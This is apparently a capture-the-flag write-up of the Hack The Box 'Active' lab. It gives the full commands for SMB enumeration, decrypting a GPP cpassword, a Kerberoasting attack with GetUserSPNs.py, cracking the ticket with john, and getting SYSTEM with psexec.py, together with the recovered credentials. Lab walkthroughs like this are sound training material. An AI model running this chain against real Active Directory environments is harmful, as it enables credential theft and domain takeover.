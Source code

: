 ![Active_call_Card](https://user-images.githubusercontent.com/110210595/187805520-c29bf5fc-ce6e-484b-a14b-33bd87e78c78.png)

# nmap Scan 
Started off with a nmap. `nmap -Pn -T5 -sV -sC -A -p- -oN active_nmap.txt 10.10.10.100`<br>
Here is the results:

![nmap_scan](https://user-images.githubusercontent.com/110210595/187805488-8fc95761-8751-42fe-a1cf-1533ec9efcd6.png)

# smbmap
We see that smb is open.<br>
I run `smbmap -H 10.10.10.100`<br>

![smbmap_results](https://user-images.githubusercontent.com/110210595/187825021-0c32621b-4d50-41f8-ab62-2bc20b94d9cd.PNG)

We notice the domain name is active.htb This is great because we'll need this for the kerberos attack. We still need credentials.<br>
Only share we have access to is <em><strong>Replication</em></strong> and its only <em><strong>READ</em></strong> acces.<br>

# smbclient
I use `smbclient \\\\10.10.10.100\\Replication`<br>
I log in without a password and just press `ENTER` to hope anonymous log in is enabled.<br>

![smbclient_Replication_results](https://user-images.githubusercontent.com/110210595/187825380-c02c7cea-bf2e-496c-b255-b63c1b97e355.PNG)

We see <em><strong>ctive.htb</em></strong> again in the list and scour this entire directory. Lot's of directories that are empty, countless `cd ..` and cd directories until we ended up finding an interesting file.<br>

![Groups_xml_finding](https://user-images.githubusercontent.com/110210595/187825500-fd5a0269-be38-40d4-b360-8418a8294e77.PNG)

We find a <em><strong>Groups.xml</em></strong> file.<br>
Used `get Groups.xml`<br>
`cat Groups.xml` didn't work hehe.<br>

![Groups_xml_results](https://user-images.githubusercontent.com/110210595/187825600-fece54cb-5614-46d0-afd7-846d569fc7ff.PNG)


We could see<br>
<em><strong>cpassword</em></strong> = "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" <br>
<em><strong>userName</em></strong> = active.htb\SVC_TGS <br>
Looks like we definitely found some credentials. But I'm not sure what format that cpassword is. I go to https://book.hacktricks.xyz/welcome/readme and do some research. Looks like cpassword is used in a Groups.xml file which is what we found. Didn't see much else so I used the same site https://book.hacktricks.xyz/welcome/readme but this time searched for Groups.xml file and we find much more info on it. Looks to be a cached GPP Password. 
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation?q=Groups.xml#cached-gpp-pasword<br>


I use `gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`<br>

![gpp_decrypt_results](https://user-images.githubusercontent.com/110210595/187825800-edb19a2c-1798-41a7-9866-1c7489bd0fc3.PNG)

The password is <em><strong>GPPstillStandingStrong2k18</em></strong><br>

Now we have -<br> 
UserName = <em><strong>active.htb\SVC_TGS</em></strong><br>
Password = <em><strong>GPPstillStandingStrong2k18</em></strong><br>

# Backtrack - smbclient Users
I remember there were other Users in the smbmap and saw <em><strong>Users</em></strong>. I went back to https://book.hacktricks.xyz/welcome/readme and typed in smbclient users and found a "List shared folders" sections. You can log in to the smbclient using a user parameter if you know the password. Which we do.
That section was actually only to list the shared files. Not connect. Scroll down a bit to Connect/List a shared folder. You'll see this is how to connect. I left the password out because I kept getting errors with it.<br>

![smbclient_Users_errors](https://user-images.githubusercontent.com/110210595/187826348-922411ac-76f4-4b5a-a3e4-53b9c19f6c99.PNG)

I used `smbclient -U SVC_TGS \\\\10.10.10.100\\Users`<br>

![smbclient_Users_SVC_TGS_results](https://user-images.githubusercontent.com/110210595/187826416-57f0c5b8-729a-4d77-a917-02afde46da56.PNG)

We see the <em><strong>SVC_TGS</em></strong> directory and `cd SVC_TGS` and `cd Desktop`<br> 
We see the <em><strong>user.txt</em></strong> file.<br>

![user_txt_found](https://user-images.githubusercontent.com/110210595/187826827-eeeb52cf-12c8-4d15-9772-234b136433e7.PNG)

I use a `get user.txt` <br>
`cat user.txt`

![user txt_results](https://user-images.githubusercontent.com/110210595/187826950-74ff1bbd-0926-492d-bf51-f0be10920c75.PNG)

![COWABUNGA](https://user-images.githubusercontent.com/110210595/187826983-ec11c879-f2d1-40b5-bcd8-740f2f5e7239.png)

We got the <em><strong>user.txt</em></strong> flag.<br>

Since I did an `exit` to cat out the <em><strong>user.txt</em></strong> flag we have to log back in. But there is nothing here. I want to check out that kerberos now since we know we could log in svc_tgs.<br>

I go back to https://book.hacktricks.xyz/network-services-pentesting/pentesting-kerberos-88#hacktricks-automatic-commands searching through port 88 and see that it's an authentication protocol with a secret password. Part of the <em><strong>Active Directory</em></strong> attacks.

I see <em><strong>Entry_4</em></strong> with Creds option. Since we do have the username and password.<br>
I use `GetUserSPNs.py -request -dc-ip {IP} active.htb/svc_tgs` I get an error :/ probably because the script isn't in the direct path.<br>
I use `locate GetUserSPNs.py` find the file and renter the syntax.<br>
`/usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs` <br>

![GetUserSPNs py_results](https://user-images.githubusercontent.com/110210595/187827380-36722399-7107-4d5a-8a90-d08a9cfba1a5.PNG)

We get the Administrator kerberos ticket!<br>
I copied the out put and put it into a text file called <em><strong>kerby.txt</em></strong><br>
I used `john kerby.txt --wordlist=/usr/share/wordlists/rockyou.txt`<br>
We cracked it.<br>

![kerby_results](https://user-images.githubusercontent.com/110210595/187827540-1bba8868-cec8-4e1a-bdf0-f50457dafb92.PNG)

The password to the Administrator account is Ticketmaster1968 <br>

![Mikey_being_a_savage](https://user-images.githubusercontent.com/110210595/187827646-fbdfbbae-715a-49ca-8417-18d524596a2b.png)

At this point I use <em><strong>psexec.py</em></strong> this is a priviledge escalation tool to use once you have credentials. Also can be used for commands in a windows machine for admins. You can find it here https://github.com/SecureAuthCorp/impacket and find out more about it here https://www.sans.org/blog/psexec-python-rocks/ Which we do have now.<br>

I use `/usr/share/doc/python3-impacket/examples/psexec.py Administrator:Ticketmaster1968@10.10.10.100`<br>
And it's a success!<br>

![psexec py_admin](https://user-images.githubusercontent.com/110210595/187827819-303b6624-c4c9-4530-8f7f-1ca22a09a46a.PNG)

We are <em><strong>nt authority\system</em></strong> which is <em><strong>equivalent</em></strong> to root on linux.<br>

I looked around and found the C:\Users\Administrator\Desktop used `dir` and we see the <em><strong>root.txt</em></strong> file.<br>

![root txt_results](https://user-images.githubusercontent.com/110210595/187827976-360b5df5-3b71-4a71-b0cb-5c47b1c3514b.PNG)


https://user-images.githubusercontent.com/110210595/187828063-21c9988b-dae8-400e-93f9-a41268c0f549.MOV


Take a break and go throw some ninja stars or something :)

